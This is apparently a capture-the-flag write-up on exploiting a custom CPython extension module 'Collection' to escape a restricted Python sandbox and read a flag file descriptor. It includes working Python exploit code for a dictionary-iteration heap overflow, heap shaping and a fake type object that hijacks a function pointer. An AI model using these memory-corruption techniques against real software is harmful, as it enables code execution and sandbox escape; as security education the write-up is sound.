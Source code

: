 
**Disclaimer** 

I worked on this challenge alongside Yochai Eisenrich. 
A great researcher and a good friend. 
We haven't finished the challenge on time, just a few hours after the CTF was over. After the write-ups started flowing we noticed that we solved it with an unintended bug, so we decided to write about it because it's kinda cool.


**Overview**

The challenge consists of several files. The authors provided a Python3.6 file, an .so called Collection.cpython-36m-x86_64-linux-gnu.so, a server-side program called server.py which we communicate with and a test.py file which consists of an example of how to use the Collection module.

The server.py expects from the user a python code, to concatenate it with a script prefix:
	
	from sys import modules
	del modules['os']
	import Collection
	keys = list(__builtins__.__dict__.keys())
	for k in keys:
            if k != 'id' and k != 'hex' and k != 'print' and k != 'range':
                del __builtins__.__dict__[k]
	

By reading the prefix above, we know that we can only work with the 'id','hex','print','range' python's builtins and the custome Collection module which written in C using the CPython API- this is the .so file we mentioned before.

The server.py code also creates a file descriptor(AKA-fd) of the flag file, duplicates it to another fd with the number 1023, and closes the original fd.

Our goal is to open the 1023 fd in order to read the flag.

Solves: 30
Points: 150

**Down To work**

The first called functions in the CPython module is the PyInit_Collection, which is equivalent to the "main" function of any .so or .dll, that being called once the library is loaded.

For each created instance of this class several methods are called:
	sub_1700 - we gave it the name: handle_object_creation. 

This function verifies that the input is a dictionary not larger than 32 members, parses the tuples and creates the structers by calling their init functions:
	Nodes- a double linked list, with a pointer to a record struct.
	Record- the record of the member- the key, the value and the type (long, list,or dict)

The Collection is a python object. The program allocates 0x118h bytes for it- the first 0x18h bytes are for the header, which consits of the reference count and a pointer to a PyTypeObject, which contains function pointers to the functions of the object.
The other 0x100 bytes are for the values of the input dict:
ints- stored as is
lists, dicts- a pointer to the data that stored.

The only function that can be called on an instance of Collection is 'get'. 
When called, behind the scenes several functions are called- the PyTypeObject is dereferenced and GenericSetAttr is called first.

Basically, that’s what we need to know before we understand the vulnerablitty.


**The Vulnerablitty**

After digging into nearly every function in the library, we checked again the handle_object_creation function and noticed something we haven't noticed before.

As was described earlier, this function parses the input dictionary, but we didn't mention that it works with the _PyDict_Next method of the Dictionary Object.

    Iterate over all key-value pairs in the dictionary p. The Py_ssize_t referred to by ppos must be initialized to 0 prior
    to the first call to this function to start the iteration; the function returns true for each pair in the dictionary, 
    and false once all pairs have been reported. The parameters pkey and pvalue should either point to PyObject* variables
    that will be filled in with each key and value, respectively, or may be NULL. Any references returned through them are
    borrowed. ppos should not be altered during iteration. Its value represents offsets within the internal dictionary
    structure, and since the structure is sparse, the offsets are not consecutive.

Based on its documentation we understood that each dictionary member has an internal indexing system in the dictionary structure. Later on, the Collection library uses it as an offset into an array and initializing for this Collection dictionary members.
We also know that we can't create a collection from a dictionary bigger than 32 members, which is exactly the size of the array buffer in memory.

    call PyDict_Next
    test eax, eax
    ...
    mov [r14+rax*8+10h], rdi
     
    
What if we can change the indexing of the members in the dictionary to overflow this buffer?


	x = {}
	for i in range(34):
	    if i == 32:
	        x["%d" % (i)] = 0x41414141 
	    elif i == 33:
	        x["%d" % (i)] = 0x12121212
	    else:
	        x["%d" % (i)] = 0xffffff00 + i 

	for i in range(2):
	    del x["%d" % (i)]



Using the del function in python we were able to create a dictionary with 32 members, but the index of the members was modified so we wrote outside the Array and overwritten the object that was next in memory!


**The Exploit**

We have a relative write primitive on the heap, but we need to get something interesting to be right after us. What is more interesting than a Collection Pyobject with a PyTypeObject pointer which is basically a vtable which later we can trigger it by calling the "get" function?

We started the heap shaping creating 5 collections, deleting the middle one and creating a hole which we need to  create the overflowing collection in it, to overflow the 3rd collection header, the PyTypeObject pointer to point to a "pyTypeObject" that we created, so when we will call 'get' on that collection, it will search the pointer to it in the PyTypeObject- methods attribute.

Very soon we discovered that the garbage collector is deleting our collections.

Each PythonObject has an attribute called ob_refcnt, which states the refernce count to the object.
so, we needed to hold a list with pointers to the collections to prevent from the garbage collector to delete our collections.

	avoid_gc = []
	holes= []
	consec_counter = 0
	hole_idx = 0
	length = 0
	for i in range(5):
             temp = Collection.Collection({"1":4, "2":i})
             avoid_gc.append(temp)
             length += 1
			
              if length > 1:
                   if id(temp) - 0x118 == id(avoid_gc[-2]):   
		   #This means that we created a consecutive allocation on the heap
                       consec_counter += 1
		    
                   else:
		       consec_counter = 0
                   if consec_counter == 2 and hole_idx == 0: 
                       hole_idx = i
                       hole_holder = temp
                       consec_counter = 0

	del avoid_gc[hole_idx-1]

Now we need to create our own PyTypeObject to point to, which will be used when we will call 'get' on the overwritten object.

The function which will be called first is the PyObject_GenericSetAttr, it is in offset 0x13h in the PyTypeObject.tp_getattro slot. 

If we will overwrite that pointer we will get a jump primitive to our own code!


	PyTypeObject = {}
	for i in range(0,32):
             if i == 0x13: 
	     # PyObject_GenericSetAttr spot
                 PyTypeObject["%d" % i] = 0x41414141
                 continue
    
            PyTypeObject["%d" % i] = 0x30303030 + i #RBP
   

	PyTypeObject = Collection.Collection(PyTypeObject)

We will need to point the PyTypeObject pointer to the Collection we just created.
If you remember, our controlled data starts right after the header at offset 0x18



	x = {}
	for i in range(34):
	
            if i == 32:
                x["%d" % (i)] = 0x2
            elif i == 33:
                x["%d" % (i)] = id(PyTypeObject) + 0x18
            else:
                x["%d" % (i)] = 0xffffff00 + i

	for i in range(2):
            del x["%d" % (i)]


	a = Collection.Collection(x)



Now, all we have left is to write the rop in order to read the fd.

A seccomp defense mechanism is embedded in the code. 
The seccomp mechanism acts like a filter of which syscalls can be called from within the process context. 

After an extensive analysis we understood that we can call the Readv function and the Write function in order to read the flag. 


See the code for further information😊




